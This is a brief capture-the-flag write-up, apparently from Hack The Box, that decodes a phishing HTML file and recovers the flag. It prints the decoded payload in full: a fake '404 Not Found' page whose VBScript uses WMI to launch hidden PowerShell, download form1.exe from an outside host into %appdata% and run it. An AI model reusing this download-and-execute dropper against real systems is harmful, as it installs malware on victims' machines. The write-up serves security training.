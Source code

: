 Pretty straight forward one, simply decode in Base64 the 2 files, and then use URL decode on the second to view the form.

```
<html>
<head>
<title></title>
<body>
<script language="JavaScript" type="text/javascript">
document.write(unescape('<html>
<head>
<title> >_ </title>
<center><h1>404 Not Found</h1></center>
<script language="VBScript">
Sub window_onload
	const impersonation = 3
	Const HIDDEN_WINDOW = 12
	Set Locator = CreateObject("WbemScripting.SWbemLocator")
	Set Service = Locator.ConnectServer()
	Service.Security_.ImpersonationLevel=impersonation
	Set objStartup = Service.Get("Win32_ProcessStartup")
	Set objConfig = objStartup.SpawnInstance_
	Set Process = Service.Get("Win32_Process")
	Error = Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object System.Net.WebClient).DownloadFile('https://standunited.htb/online/forms/form1.exe','%appdata%\form1.exe');Start-Process '%appdata%\form1.exe';$flag='HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}", null, objConfig, intProcessID)
	window.close()
end sub
</script>
</head>
</html>
'));
</script>
</body>
</html>

```

This gives us the flag, `HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}`
